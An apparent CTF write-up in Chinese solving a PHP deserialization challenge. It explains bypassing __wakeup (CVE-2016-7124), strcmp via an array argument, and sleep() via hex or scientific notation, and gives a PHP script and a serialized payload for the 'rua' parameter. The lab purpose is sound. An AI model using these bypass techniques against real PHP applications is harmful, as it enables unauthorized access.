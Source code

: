 典型的`PHP反序列化题目`，可以参考：[PHP反序列化由浅入深](https://xz.aliyun.com/t/3674)学习了解~

简单审计思路：通过GET传值`rua`后进行反序列化, unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。__destruct()会在对象的所有引用都被删除或者当对象被显式销毁时执行，想要获取`flag`，我们需要`rua`满足一下条件：

- strcmp($this->password,$this->truepassword)==0
- $this->time < 11 * 22 * 33 * 44 * 55 * 66 & $this->time > 66 * 55 * 44 * 33 * 23 * 11
- sleep((int)$this->time)

绕过方法:

- 绕过__wakeup的执行(CVE-2016-7124):**当序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过__wakeup的执行**，修改对象属性个数。
- 绕过strcmp: Php5.3之后版本使用strcmp比较一个字符串和数组的话,将不再返回-1而是返回0，构造password数组。
- 绕过sleep(): (1)使用16进制表示`0x`开头，强制类型转化时会转化为`0`；(2)使用科学计数法绕过，`1.3E9`。

![](/assets/images/move/1552210443162-5ead5cb9-d080-4b2d-9930-4523f6b3d1c0.png)

构造脚本：

```php
<?php
class Time{
	public $time;
	public $password;
	public function __construct($tt, $pp) {
            $this->time = $tt;
            $this->password = $pp;
    }
}
$array = array(
    0 => "bar",
    1 => "foo",
);
$time = '0x4d7c6d00';
$rua = new Time($time, $array);
echo serialize($rua);
//O:4:"Time":2:{s:4:"time";s:10:"0x4d7c6d00";s:8:"password";a:2:{i:0;s:3:"bar";i:1;s:3:"foo";\}\}
?>
```

Payload:`rua=O:4:"Time":3:{s:4:"time";s:10:"0x4d7c6d00";s:8:"password";a:2:{i:0;s:3:"bar";i:1;s:3:"foo";\}\}`.

![](/assets/images/move/1552209742559-b1448e4b-0ab4-407b-8f5c-981e329b9eee.png)
